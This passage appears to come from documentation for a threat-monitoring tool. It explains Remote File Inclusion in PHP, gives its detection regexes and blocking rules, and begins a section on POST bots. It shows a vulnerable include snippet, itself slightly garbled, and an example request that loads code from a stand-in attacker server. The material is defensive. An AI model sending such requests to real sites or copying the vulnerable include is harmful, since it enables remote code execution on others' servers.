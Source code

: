 For example, let's say you have a PHP based web page that includes a header from a secure server in every page, the variable that stores the location of the header file is called 'header'. In your PHP code, you have the below:

``` 
$header = $_GET['https://mysecureserver.com.files/header.php'];

include($header);

``` 

If not properly caught, an attacker could submit a request like this:

`https://yourwebsite.com/?header=http://attackersserver.com/malicouscode.php`

This would overwrite your header variable with their attackers, and the server would then include the attacker PHP code on your server and then run it.


**Signatures detected**

Triggered when the URL request contains any of the flowing patterns:

*Patterns are separated by a |*

> ?\S+=http://\d+.\d+.\d+.\d+/\S+ | ?\S+=https://\d+.\d+.\d+.\d+/\S+


**Severity**

Although dangerous, Threat Monitoring will not immediately block an IP if an RFI attack is detected. This is to prevent more advanced, legitimate web queries from immediately being blocked. If an IP continues to submit RFI requests, the IP will be blocked, see the 'Remediations and blocking' section below

**Remediation and Blocking**

Threat Monitoring will block the IP if 10 or more RFI signatures are detected within 120 seconds. The IP will be blocked via IPTables and hosts.deny (Linux) or Windows Firewall for 30 minutes.

Additionally, If an RFI attack returns a code 200 (Web Request success), Threat Monitoring will check the source IP address against AbuseIPDB. If the IP is known for malicious activity within the last 14 days, the IP will be blocked via IPTables and hosts.deny (Linux) or Windows Firewall for 30 minutes.

To disable the ability to include remote files completely, you can set `allow_url_include` to `off` in your php.ini or .htaccess file

### POST Bots

**What is this attack**

The Internet is full of bots, both performing tasks that make the Internet run, and sometimes malicious tasks that can cause mayhem. POST requests are types of web requests that can be sent to a server via HTTP and HTTPS and are often used to send data to a web server or API. 

**Severity**

POST request bots are not specifically dangerous, but detecting them can be a vital way to prevent an upcoming attack, stop a malicious vulnerability scan or stop some web scrapers from submitting a request to your site. See the below section for information on blocking this attack.
